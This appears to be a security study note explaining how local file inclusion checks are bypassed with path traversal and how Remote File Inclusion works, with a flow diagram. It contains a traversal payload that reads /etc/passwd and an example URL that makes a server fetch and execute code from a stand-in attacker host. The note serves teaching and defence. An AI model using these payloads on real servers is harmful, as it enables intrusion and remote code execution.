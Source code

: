 ## Bypass defined directories
- sometimes developer require the location in the paramater and require it to start with e.g. `languages`: `http://URL/index.php?lang=languages/EN.php`
- we can bypass that via: `http://URL/index.php?lang=languages/../../../../etc/passwd`



# Remote File Inclusion RFI
- Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application
- like LFI it occurs when user input is not validated properly, but **allowing an attacker to inject an external URL into include function**
- a requirement for an RFI is that the `allow_url_fopen` has to be  `on`
- The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain [Remote Code Execution](../Remote%20Code%20Execution.md) on the server. other risks are Senesetive Inormation Disclosure, [Cross-Site Scripting XSS](Cross-Site%20Scripting%20XSS.md) and [Denial of Service DoS](Denial%20of%20Service%20DoS.md)
- An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server:

Example:
1. the hacker sends a requst to server with his own malcious file from his own server as query parameter: `http://URL/index.php?file=http://HACKER_URL/rfi.txt` where the file `rfi.txt` contains executable code like:
```php
<?PHP echo "Hello THM"; ?>
```
2. the web app requests the hackers file: `GET http://HACKER_URL/rfi.txt` 
3. the hackers server responds the malicious file
4. web app injects the content of `rfi.txt` into the include function and executes it
5. web app sends the result of the execution within the `index.php` page to the hackers client (not server)
```
                                                                     4.

                                                                 injects and
                                                                 executes it
                              1.                                ┌───────┐
                                                                ▼       │
┌──────┐ http://URL/index.php?file=http://HACKER_URL/rfi.txt ┌──────┐   │
│Hacker├────────────────────────────────────────────────────►│ Web  │   │
│Client│                                                     │Server├───┘
│      │◄────────────────────────────────────────────────────┤      │
└──────┘    result of the execution within the index.php     └─┬────┘
                                                               │  ▲
                              5.                               │  │
                                                               │  │
                                                               │  │
                                                               │  │
                                                               │  │
                              2.                               │  │
                                                               │  │
┌──────┐          GET http://HACKER_URL/rfi.txt                │  │
│Hacker│◄──────────────────────────────────────────────────────┘  │
│Server│                                                          │
│      ├──────────────────────────────────────────────────────────┘
└──────┘          sends content of rfi.txt

                              3.
```
